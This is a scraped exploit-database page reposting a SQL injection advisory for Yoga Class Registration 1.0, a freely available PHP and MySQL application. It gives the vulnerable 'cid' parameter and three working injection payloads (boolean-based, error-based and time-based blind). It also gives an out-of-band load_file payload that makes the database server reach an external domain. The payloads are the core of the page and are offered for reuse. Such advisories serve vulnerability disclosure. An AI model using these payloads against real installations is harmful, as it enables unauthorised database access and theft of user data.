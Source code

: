 ```yaml
---
title: Yoga Class Registration 1.0 SQL Injection Vulnerability exploit
url: https://sploitus.com/exploit?id=1337DAY-ID-38272&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-03-21
fetch_date: 2025-10-04T10:07:05.916433
---
```


# Yoga Class Registration 1.0 SQL Injection Vulnerability exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Yoga Class Registration 1.0 SQL Injection Vulnerability

2023-03-20 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=1337DAY-ID-38272
## Title: Yoga Class Registration -1.0-2023 - Multiple SQLi
## Author: nu11secur1ty
## Date: 02.27.2023
## Vendor: https://github.com/oretnom23
## Software: https://www.sourcecodester.com/php/16097/yoga-class-registration-system-php-and-mysql-free-source-code.html
## Reference: https://portswigger.net/web-security/sql-injection

## Description:
The `cid` parameter appears to be vulnerable to Multiple-SQL injection
attacks. The payload '+(select
load_file('\\\\aaob4nk5vd0lv9e50qp2c5c1dsjl7iv9yxpkg85.stupid.com\\shs'))+'
was submitted in the cid parameter. This payload injects a SQL
sub-query that calls MySQL's load_file function with a UNC file path
that references a URL on an external domain.
The attacker easily can steal all information about this server and
this could be awful for all users of this system.

STATUS: HIGH Vulnerability - CRITICAL

[+]Payload:
```mysql
---
Parameter: cid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=yclasses/registration&cid=158158925' or '6060'='6060'
AND 7469=7469 AND 'IrlM'='IrlM

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or
GROUP BY clause (FLOOR)
    Payload: p=yclasses/registration&cid=158158925' or '6060'='6060'
AND (SELECT 6894 FROM(SELECT COUNT(*),CONCAT(0x71786b7071,(SELECT
(ELT(6894=6894,1))),0x716a6a7871,FLOOR(RAND(0)*2))x FROM
INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'CykB'='CykB

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=yclasses/registration&cid=158158925' or '6060'='6060'
AND (SELECT 9785 FROM (SELECT(SLEEP(3)))edGv) AND 'KLgd'='KLgd
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-nu11secur1ty/tree/main/vendors/oretnom23/2023/Yoga-Class-Registration%20-1.0-2023%20-%20Multiple-SQLi)

## Proof and Exploit:
[href](https://streamable.com/hhcgg6)

## Time spend:
01:00:00
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)